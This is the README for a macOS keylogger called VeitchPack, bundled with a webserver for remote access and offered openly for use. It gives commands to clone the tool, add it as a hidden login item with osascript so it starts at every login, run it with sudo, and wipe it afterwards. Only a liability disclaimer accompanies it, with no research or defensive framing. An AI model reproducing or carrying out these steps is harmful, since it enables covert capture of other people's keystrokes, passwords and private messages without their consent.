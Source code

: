 # VeitchPack #
A keylogger bundled with a webserver. For remote access goodies on OSX... best done via ssh.

**DISCLAIMER: I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSE BY THIS SOFTWARE. PROCEED TO USE AT YOUR OWN RISK. I WILL NOT BE HELD LIABLE.**
### Download ###
~~~~
git clone https://github.com/Gangster45671/VeitchPack.git
unzip VeitchPack.zip
~~~~

### Add to Startup Menu ###
~~~~
echo `pwd`/`ls launch.command`
osascript -e 'tell application "System Events" to make login item at end with properties {path:"PATH_HERE", hidden:true}'
~~~~

### Run ###
~~~~
sudo ./launch.command
~~~~

### Wipe ###
~~~~
sudo ./wipe.command
~~~~
